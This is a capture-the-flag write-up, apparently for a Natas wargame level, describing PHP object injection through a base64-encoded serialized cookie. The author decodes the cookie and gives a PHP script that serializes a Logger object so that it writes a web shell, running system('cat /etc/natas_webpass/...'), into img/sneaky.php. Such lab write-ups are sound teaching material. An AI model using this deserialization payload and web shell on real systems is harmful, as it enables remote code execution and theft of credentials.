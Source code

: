 
     
4. Steps taken (PHP Object Injection & Serialization):

   1. First thing I did was check how the site was inteded to be used. I submitted the payload `?x1=50&y1=250&x2=200&y2=50`. This drew a line on the page and created a cookie value of `drawing`. I attempted two more payloads `?x1=200&y1=50&x2=350&y2=250` and `?x1=350&y1=250&x2=50&y2=250`. This drew the triangle as expected.

   2. I wanted to see if it really was encoded by serealization and base64. The cookie value was `YTozOntpOjA7YTo0OntzOjI6IngxIjtzOjI6IjUwIjtzOjI6InkxIjtzOjM6IjI1MCI7czoyOiJ4MiI7czozOiIyMDAiO3M6MjoieTIiO3M6MjoiNTAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjIwMCI7czoyOiJ5MSI7czoyOiI1MCI7czoyOiJ4MiI7czozOiIzNTAiO3M6MjoieTIiO3M6MzoiMjUwIjt9aToyO2E6NDp7czoyOiJ4MSI7czozOiIzNTAiO3M6MjoieTEiO3M6MzoiMjUwIjtzOjI6IngyIjtzOjI6IjUwIjtzOjI6InkyIjtzOjM6IjI1MCI7fX0=`. 

   3. After decoded in base64 I got a serialized value of `b'a:3:{i:0;a:4:{s:2:"x1";s:2:"50";s:2:"y1";s:3:"250";s:2:"x2";s:3:"200";s:2:"y2";s:2:"50";}i:1;a:4:{s:2:"x1";s:3:"200";s:2:"y1";s:2:"50";s:2:"x2";s:3:"350";s:2:"y2";s:3:"250";}i:2;a:4:{s:2:"x1";s:3:"350";s:2:"y1";s:3:"250";s:2:"x2";s:2:"50";s:2:"y2";s:3:"250";}}'`. 

   4. This means that the vulnerability was most likely in here. We needed to inject a serialized and enconded payload as a cookie value we could cause something to happen. 

   5. Since the Logger class was not actually used in the sourcecode that would mean that we can make a script in php to try and return the password for us. By assigning a log filename to something easy like  `img/sneaky.php` and swapping the hardcoded message as a script. 

   ```php
            
      <?php

      class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;

            function __construct(){
                  // initialise variables
                  $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
                  $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
                  $this->logFile = "img/sneaky.php";

                  // write initial message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->initMsg);
                  fclose($fd);
            } 

            function log($msg){
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$msg."\n");
                  fclose($fd);
            } 

            function __destruct(){
                  // write exit message
                  $fd=fopen($this->logFile,"a+");
                  fwrite($fd,$this->exitMsg);
                  fclose($fd);
            } 
      } 

      $object = new Logger();
      echo( base64_encode(serialize($object)) )

      ?>

   ``` 
